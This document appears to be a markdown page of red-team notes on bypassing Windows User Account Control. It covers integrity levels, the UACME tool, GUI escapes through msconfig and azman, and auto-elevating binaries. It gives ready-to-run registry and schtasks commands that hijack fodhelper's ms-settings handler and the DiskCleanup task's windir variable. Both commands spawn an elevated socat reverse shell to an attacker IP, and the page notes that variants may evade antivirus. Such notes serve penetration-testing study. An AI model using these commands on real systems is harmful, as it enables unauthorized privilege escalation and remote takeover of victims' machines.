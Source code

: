# Bypassing UAC
## User Account Control
User Account Control (UAC) is a Windows security feature that forces any new process to run in the security context of a non-privileged account by default. 


| Integrity Level | Description |
|:---------------:|:-----------:|
| Low IL | Have the most restrictions, limiting program abiliteis to write to the registry, user profile, and other sensitive areas |
| Medium IL | Assigned to standard users and Administrators' filtered tokens |
| High IL | Used by Administrators' elevated tokens if UAC is enabled |
| System IL | Reserved and used by SYSTEM |

## Automating UAC Bypasses
[UACME](https://github.com/hfiref0x/UACME) is tool for performing automatted UAC bypass:
```
akagi32.exe [Method_Number] [Optional_Command]
```

## GUI Based Bypasses
### Msconfig
`msconfig` (Microsoft System Configuration Utility) tool that helps users troubleshoot and manage how their system starts and runs.

1. Open msconfig (`windows+r msconfig`)
2. Go to `Tools`
3. Launch option `Command Prompt`

|![](Images/image-5.png)|
|:--:| 
| *UAC bypass* |

### Azman
`azman` is the Authorization Manager console. It’s a Microsoft Management Console (MMC) snap-in used to manage role-based access control (RBAC) for applications and services.

1. Open azman (`windows+r azman.msc`)
2. Go to `Help` and click `Help Topics`
3. Right click and chose `View Source`
4. From notepad open `cmd.exe`


|![](Images/image-6.png)|
|:--:| 
| *UAC bypass* |

## Auto-Elevating Processes
Some executables can auto-elevate, achieving High IL without any user intervention. 

For an application, some requirements need to be met to `auto-elevate`:
- The executable must be signed by the `Windows Publisher`
- The executable must be contained in a trusted directory, like `%SystemRoot%/System32`/ or `%ProgramFiles%/`
- Executable files must declare the `autoElevate` element inside their manifests.


[Sigcheck](https://learn.microsoft.com/en-us/sysinternals/downloads/sigcheck) tool can be used to check file's manifest.

### Fodhelper 
`fodhelper` (Features on Demand Helper) is responsible for managing Features on Demand (FOD) — optional Windows features that can be installed when needed (like additional language packs, .NET frameworks, handwriting recognition, etc.).

`fodhelper` is trying to open a file under the `ms-settings` `ProgID`. By creating an association for that `ProgID` in the current user's context under `HKCU`, attacker override the default system-wide association and, therefore, control which command will be used to open the file. Since `fodhelper` is an `autoElevate` executable, any subprocess it spawns will inherit a high integrity token.

```
HKEY_LOCAL_MACHINE\Software\Classes  --> System-wide file associations
HKEY_CURRENT_USER\Software\Classes   --> Active user's file associations
```

```
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<ATTACKER_IP>:<ATTACKER_PORT> EXEC:cmd.exe,pipes"
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

|![](Images/image-7.png)|
|:--:| 
| *UAC bypass* |

There are different [variations](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) of this UAC bypass, which may be undetected by AV. Sometimes translating command from `cmd` to `powershell` may aid exploitation.

## Bypassing Always Notify
If UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate. To bypass "Always Notify" attacker can abuse scheduled task that have required permissions - if admin user executes scheduled task, it runs with highest IL without prompting UAC. To check configured UAC level run:
```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin

0 – Elevate without prompting
1 – Prompt for credentials on secure desktop
2 – Prompt for consent on secure desktop (Always Notify)
3 – Prompt for credentials
4 – Prompt for consent
5 – Prompt for consent for non-Windows binaries
```

Attacker can abuse `DiskCleanup` via modification of environment variable `%windir%`:
```
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<ATTACKER_IP>:<ATTACKER_PORT> EXEC:cmd.exe,pipes &REM " /f
schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

|![](Images/image-8.png)|
|:--:| 
| *UAC bypass - Scheduled task settings* |
|![](Images/image-9.png)|
| *UAC bypass - Scheduled task settings* |
|![](Images/image-10.png)|
| *UAC bypass - Scheduled task settings* |













